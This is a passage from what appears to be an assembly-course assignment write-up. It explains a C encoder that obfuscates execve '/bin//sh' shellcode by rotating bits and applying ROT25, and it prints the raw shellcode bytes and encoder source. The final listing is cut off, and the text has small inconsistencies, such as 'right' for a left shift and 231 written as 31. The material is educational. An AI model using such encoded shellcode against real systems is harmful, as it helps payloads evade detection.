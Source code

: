 
- A string is defined to store the original shellcode. This is the string to encode. From the [Execve-Stack](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Execve-Stack.nasm): 
```c
unsigned char code[]= \ 
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50
 \x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"; 
```
- For each byte of the original shellcode, it's bites are shifted "3" positions to left:
  - A bucle iterates each byte of the string, and for each byte
  - Each byte is shifted to right as been explained in the previous sections
  - The shifted byte value is printed on stdout
```c
        // 3 bits left Rotation 
        for (int i = 0; i< strlen(code); i++) { 
            code[i] = (code[i] << SHIFTS) | ( code[i] >> (BITS_TO_ROTATE - SHIFTS)); 
            printf("0x%02x,", code[i]); 
        }	 
```
- Once shellcode been shifted, a **ROT25** is applied:
  - If the byte value is lower than "231", simply adds 25 to the byte value
  - If the byte value is greater or equal to "231", adds 25 to it's value for substracting 256 of it
  - Prints each byte one ROT'ed on screen
```c
        // ROTX the ShellCode 
        unsigned char rot = 25; 
        unsigned char max_rot = 256 - rot; 

        for (int i = 0; i < strlen(code); i++) { 
                if (code[i] < max_rot) {                     ; value < "231"
                        code[i] = code[i] + rot;             ; Add 25
                        printf("0x%02x,",code[i]); 
                } else {                                     ; value >= "31"
                        code[i] = (code[i] + rot) - 256;     ; value = original_value + rot - 256
                        printf("0x%02x,",code[i]); 
                } 
        } 
```

After this all, the Encoded shellcode will be printed in screen. This is the shellcode that needs to go into the ASM Decoder Stub to be decoded and executed. The following info for later use is printed on screen:
- Legth of the shellcode
- The original shellcode string in hex 
- The string in hex of the left rotated shellcode 
- The string in hex of **ROT25** of the already rotated shellcode 

The Encoder code can be found on [GitHub Repo](https://github.com/galminyana/SLAE64/blob/main/Assignment04/) for this assignment, in the [Encoder.c](https://github.com/galminyana/SLAE64/blob/main/Assignment04/Encoder.c) file:

```c
#include <stdio.h>
#include <string.h>

#define BITS_TO_ROTATE	8
#define SHIFTS 		      3

unsigned char code[]= \
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48"
"\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

void main (void)
{
	printf("\nShellCode Length: %d\n", strlen(code)); 
	printf("\nOriginal ShellCode:\n");

```